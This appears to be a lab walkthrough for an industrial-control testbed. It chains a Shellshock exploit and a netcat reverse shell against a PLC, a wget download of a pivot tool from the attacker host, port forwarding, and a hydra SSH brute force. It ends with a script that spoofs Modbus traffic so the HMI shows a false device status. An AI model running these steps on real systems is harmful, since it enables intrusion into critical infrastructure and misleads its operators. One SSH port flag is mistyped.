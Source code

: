 # Multi Stage Attack scenario

This page outlines an attack targeting the Internal Gateway, which is not directly accessible from the attacker machine. To overcome this limitation, the attacker leverage ShellShock vulnerability in the Genera-PLC to pivot and gain access to the target. Then, traffic is spoofed to manipulate M-IED1 device. Notably, all files and tools required to execute this attack are already included within the provided Docker container.

- Use the attacker node:
```bash
docker exec -ti Attacker-Node bash
```

---

The first stage of the attack path exploits the Shellshock vulnerability in the General-PLC, specifically targeting the CGI-Bin module of the Apache web server. This vulnerability enables attackers to inject and execute malicious commands through specially crafted HTTP requests since the CGI (Common Gateway Interface) scripts on Apache invoke the Bash shell for processing the HTTP response. 

- Execute the exploit:
```bash
python3 shellshock.py 10.0.1.100 4444 http://10.0.1.66//cgi-bin/stats
```

![Shellshock Exploit](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/shellshock.png "Figure: Shellshock Exploit")

- Establish a reverse shell listener:
```bash
nc -lvnp 4444
```

![Reverse Shell](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/reverse.png "Figure: Reverse Shell")

To progress further along the attack path, the attacker must perform pivoting to reach the I-Gateway. Indeed, this device is typically unreachable from the SCADA Network. However, by compromising the General-PLC, the attacker can bypass these restrictions and establish a connection to the I-Gateway using port forwarding techniques. It is worth noting that the shell upgrade has already been performed. For those interested in understanding how to execute the shell upgrade, detailed guidance can be found [this link](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/).

- Establish a webserver:
```bash
python3 -m http.server
```
![Webserver](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/webserver.png "Figure: Webserver")

- Downloading the required tool:
```bash
wget http://10.0.1.100/port-forward.py
```
![Tool Download](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/download-tool.png "Figure: Tool Download")

- Port Forwarding:
```bash
python port-forward.py 2222:10.0.1.77:22
```
![ Port Forwarding](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/port-forwarding.png "Figure: Port Forwarding")

Then, the attacker is able to brute force the SSH service exposed by the gateway and take complete control of the endpoint. In fact, this service was exploited by finding the default credential. Therefore, this credential enables us also to gain root privilege.

- SSH Bruteforce:
```bash
hydra -L user.txt -P pass.txt -t 6 ssh://10.0.1.66:2222
```
![SSH Bruteforce](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/bruteforce-ssh.png "Figure: SSH Bruteforce")

- SSH Connection:
```bash
ssh -P 2222 admin@10.0.1.66
```
![SSH Access](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/ssh.png "Figure: SSH Access")

Finally, the attacker alters the communication passing through the I-Gateway in order to manipulate the visualization of the M-IED1 status.

- Copy the modification script to the I-Gateway:
```bash
scp -P 2222 coilModificationStealth.py admin@10.0.1.66:/home/admin/ #Attacker Node
```
- Execute the script on the I-Gateway:
```bash
python3 coilModificationStealth.py #I-Gateway
```

![Packet Modification](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/packetModification.png "Figure: Packet Modification")

Indeed, from the HMI interface, we can observe that MIED1 appears to be active. However, by using the TestNode, which is connected to the same network interface as the MPLC, it is possible to confirm that the displayed MIED1 is close.

![HMI](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/HMI.png "Figure: HMI")

![Coils](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/coils.png "Figure: Coils")
